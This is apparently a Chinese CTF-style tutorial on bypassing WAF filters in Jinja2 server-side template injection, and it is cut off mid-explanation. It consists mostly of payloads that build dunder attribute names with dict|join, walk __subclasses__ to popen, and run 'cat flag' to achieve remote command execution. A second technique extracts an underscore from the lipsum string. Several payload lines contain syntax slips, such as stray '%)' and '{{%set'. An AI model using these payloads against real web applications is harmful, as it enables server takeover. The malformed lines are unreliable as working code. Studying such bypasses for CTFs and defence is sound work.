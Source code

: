 # 16.SSTI混合过滤绕过

## 实例解析1——WAF过滤’，”，+,request,[]

Payload原型：

```
{{().__class__.__base__}}
```

绕过：

```
{% set a=dict(__class__=1)|join%)%}{%set b=dict(__base__=1)|join%}{{()|attr(a)|attr(b)}}
```

join会把字典（dict）里的键名都拼接起来，至于键的值是什么不重要，可以是__class__=1也可以是__class__=111

最终payload示例：

```
{% set a=dict(__class__=1)|join%)%}

{%set b=dict(__base__=1)|join%}

{%set c=dict(__subclasses__=1)|join%}

{%set d=dict(__getitem__=1)|join%}

{%set e=dict(in=1,it =2)|join%}

{{%set f=dict( glo=1,bals =2)|join%}

{%set g=dict(popen=1)|join%}

{%set kg={}|select()|string()|attr(d)(10)%}

{%set i=(dict(cat=1)|join,kg,dict(flag=2)|join)|join%)

{%set r=dict(read=1)|join%}

{{()|attr(a)|attr(b)|attr(c)()|attr(d)(117)|attr(e)|attr(f)|attr(d)(g)(i)|attr(r)()}}

```

## 实例解析2——WAF过滤’，”,_，0-9,\,.,[],空格

注入`{{lipsum|string|list}}`，如果回显的列表里第9位是空格，第18位是下划线，就可以这样获取下划线：

```
{%set a=(lipsum|string|list)[18]%}{{a}}
```

由于中括号被过滤：
